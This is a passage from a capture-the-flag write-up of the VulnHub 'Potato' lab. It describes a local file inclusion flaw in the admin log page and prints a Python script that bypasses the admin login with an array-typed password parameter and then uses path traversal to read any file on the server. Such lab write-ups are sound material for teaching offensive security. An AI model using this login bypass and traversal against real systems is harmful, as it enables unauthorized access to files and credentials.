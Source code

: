 After spending some time enumerating the server we found a LFI in the log page

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-25-VulnHub-Potato/2021-11-25-VulnHub-Potato%2008:19:05.png)

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-25-VulnHub-Potato/2021-11-25-VulnHub-Potato%2008:19:25.png)

Let's make a python script to auto LFI, because it's better to get the files on the file system

Here it's

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-25-VulnHub-Potato/2021-11-25-VulnHub-Potato%2008:41:56.png)

auto_lfi.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto File Read LFI
# Potato - VulnHub

import argparse
import requests
import sys
from bs4 import BeautifulSoup

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Function to login as admin
def loginAdmin(rhost):
    print("[+] Just Logging In ! [+]")
    url = "http://%s:80/admin/index.php?login=1" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "admin", "password[]": "admin"}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] Logged In ! [+]")

# Let's read files!
def readFile(rhost):
    url = "http://%s:80/admin/dashboard.php?page=log" %rhost
    print("[+] Type exit to exit ! [+]")
    prefix = "Reading file: "
    file = ""
    while True:
        file = input(prefix)
        if file != "exit":
            data = {"file": "/../../../../../../..%s" %file}
            headers = {"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"}
            output = r.post(url,headers=headers,data=data,proxies=proxies)
            soup = BeautifulSoup(output.text, 'lxml')
            container = soup.find('pre')
            if len(container) == 0:
                print()
                print("[+] File does NOT EXIST !!! Or I can't read it !!! [+]")
                print()
            else:
                container = str(container)
                container = container.removesuffix("</pre>")
                container = container.removeprefix("<pre>")
                print()
                print(container)
        else:
            print()
```